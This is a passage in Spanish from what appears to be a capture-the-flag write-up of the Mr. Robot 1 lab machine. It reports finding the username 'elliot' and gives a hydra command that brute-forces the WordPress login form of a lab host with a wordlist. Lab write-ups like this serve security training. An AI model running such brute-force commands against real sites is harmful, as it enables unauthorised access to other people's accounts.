 Encuentro un nombre valido con este diccionario: **elliot**

![alt text](../assets/images/mr-robot1/image-26.png)

Uso hydra de nuevo para intentar romper la clave del usuario intentando la fuerza bruta con el mismo diccionario.

```bash
hydra -vV -l elliot -P fsocity.dic.uniq 10.0.2.18 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
```

![alt text](../assets/images/mr-robot1/image-27.png)
